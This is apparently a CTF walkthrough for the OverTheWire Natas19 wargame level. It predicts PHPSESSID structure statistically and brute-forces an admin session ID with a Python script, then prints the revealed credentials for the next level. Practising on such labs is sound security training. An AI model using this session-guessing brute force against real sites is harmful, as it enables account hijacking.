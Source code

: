 # Natas19

*	user: `natas19`
*	pass: `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`
*	url: `http://natas19.natas.labs.overthewire.org`
*	flag: `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`

## Procedure

1.	Since values of PHPSESSID are not sequential, we have to try if it's
	possible to evaluate the randomness in order to predict values. To do that
	we need a significant number of generated PHPSESSID and the try to execute
	some statistics.

2.	Statistics are executed by Python script
	(natas19_stats.py)[./scripts/nata19_stats.py]. Run it

		$ python natas19_stats.py
		Just a simple analysis: 
		  PHPSESSIDs with 18 chars: 82.00%
		  PHPSESSIDs with 14 chars: 2.00%
		  PHPSESSIDs with 16 chars: 14.00%
		
		Chose length: 18
		
		With 300 captures
		  char at position  0 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  1 of PHPSESSID is '1' with accurancy 20.00%
		  char at position  2 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  3 of PHPSESSID is '2' with accurancy 14.00%
		  char at position  4 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  5 of PHPSESSID is '3' with accurancy 13.00%
		  char at position  6 of PHPSESSID is '2' with accurancy 100.00%
		  char at position  7 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position  8 of PHPSESSID is '6' with accurancy 100.00%
		  char at position  9 of PHPSESSID is '1' with accurancy 100.00%
		  char at position 10 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 11 of PHPSESSID is '4' with accurancy 100.00%
		  char at position 12 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 13 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position 14 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 15 of PHPSESSID is '9' with accurancy 100.00%
		  char at position 16 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 17 of PHPSESSID is 'e' with accurancy 100.00%

	The output inform us that 82% of the captures is 18 chars length, so it's
	a good candidate for our flag. Then, by considering only IDs with 18 chars,
	we have an evaluation of the characters. According to the statistics, our
	PHPSESSID should be like this:

		3 [?] 3 [?] 3 [?] 2d61646d696e

3.	Now we can try with a brute-force because the range of possible solutions
	is reasonable (16x16x16).

		while x <= 0xf:
			while y <= 0xf:
				while z <= 0xf:
					phpsessid = (('3%s3%s3%s2d61646d696e') %
								 (hex(x)[2:], hex(y)[2:], hex(z)[2:]))
					cookies['PHPSESSID'] = phpsessid
					print 'Trying with: %s' % phpsessid
					r = requests.get(target, auth=auth, params=params, cookies=cookies)
					if "You are logged in as a regular user." not in r.text:
						print r.text
						sys.exit(0)
					z += 1
				y += 1
				z = 0x0
			x += 1
			y = 0x0
			z = 0x0

	Also in this case, Python is our best friend...

		$ python natas19.py
		Trying with: 3030302d61646d696e
		...
		Trying with: 33373f2d61646d696e
		Trying with: 3338302d61646d696e
		Trying with: 3338312d61646d696e
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
		<body>
		<h1>natas19</h1>
		<div id="content">
		<p>
		<b>
		This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
		</b>
		</p>
		You are an admin. The credentials for the next level are:<br><pre>Username: natas20
		Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
		</body>
		</html>
